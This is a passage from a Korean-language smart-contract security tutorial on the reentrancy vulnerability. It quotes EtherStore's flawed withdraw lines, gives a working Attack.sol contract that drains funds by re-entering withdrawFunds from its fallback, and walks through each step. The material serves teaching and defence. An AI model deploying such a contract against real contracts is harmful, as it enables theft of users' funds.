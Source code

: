 이 컨트랙트의 취약점은 바로 전송자에게 ether를 전송하고 밸런스를 차감하는 부분에서 발생한다.

```
require(msg.sender.call.value(_weiToWithdraw)());
balances[msg.sender] -= _weiToWithdraw;
```

<br/>

이제 공격 컨트랙트를 살펴보도록 하자.

#### Attack.sol

```scala
pragma solidity ^0.4.8;

import "./EtherStore.sol";
contract Attack {
  EtherStore public etherStore;
  // intialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }
  
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }
    
  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

이제 이 악성 컨트랙트가 어떻게 `EtherStore` 컨트랙트의 취약점을 이용하여 공격하는지 살펴보도록 하자. 공격자는 위의 컨트랙트를 배포하면서 공격대상이 되는 `EtherStore`의 주소를 `etherStore` 변수에 저장한다.

그리고 공격자는 `pwnEtherStore()` 함수를 호출한 다음 `EtherStore` 컨트랙트의 `depositFunds()` 함수를 호출하여 1 ether 이상을 입금한다. 그리고는 입금과 동시에 `withdrawFunds()` 함수를 호출하여 1 ether를 출금한다.

이제 위의 함수를 호출했을 때 어떠한 공격이 수행되는지 순서대로 알아보도록 하자(공격시점에서 `EtherStore` 컨트랙트는 총 10 ether의 밸런스를 저장하고 있다고 가정한다.)

1. Attack.sol : (라인15) - `depositFunds()` 함수가 호출되면 1 ether 만큼의 `msg.value`가 전달되고, 공격 컨트랙트의 밸런스에는 1 ether가 저장된다.
2. Attack.sol : (라인17) - `withdrawFunds()` 함수가 호출하면서 인자로 1 ether를 전달한다. 이는 (라인12 ~ 16)의 모든 요구사항을 통과하게 된다.
3. EtherStore.sol : (라인17) - `EtherStore` 컨트랙트는 공격 컨트랙트인 `Attack` 컨트랙트에게 1 ether를 다시 전송한다.
4. Attack.sol : (라인25) - 공격 컨트랙트에게 전달된 ether로 인해 `fallback` 함수가 실행된다.
5. Attack.sol : (라인26) - 원래 `EtherStore` 컨트랙트에는 10 ether가 저장되어 있었고, 공격 컨트랙트에게 1 ether를 전송했기 때문에 남은 밸런스는 9 ether이므로 `fallback` 함수 내부의 조건문을 통과한다.
6. Attack.sol : (라인 27) - `fallback` 함수는  `withdrawFunds()` 함수를 재호출하여 해당 `EtherStore` 컨트랙트에 ***재진입(`re-enter`)한다***.
7. EtherStore.sol : (라인12) - 두 번째 `withdrawFunds()` 함수를 호출하였을 때, 여전히 공격 컨트랙트의 밸런스는 1 ether이다. 왜냐하면 아직 아래에 있는 (라인17)에서 밸런스를 차감하는 부분이 실행되지 않았기 때문이다. 이는 (라인19)에 있는 최종 출금시간도 업데이트되지 않았기 때문에 이전과 동일하게 모든 요구사항을 만족하여 통과하게 된다.

[1]: https://medium.com/hackernoon/hackpedia-16-solidity-hacks-vulnerabilities-their-fixes-and-real-world-examples-f3210eba5148
[2]: https://github.com/OpenZeppelin/ethernaut
[3]: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/math/SafeMath.sol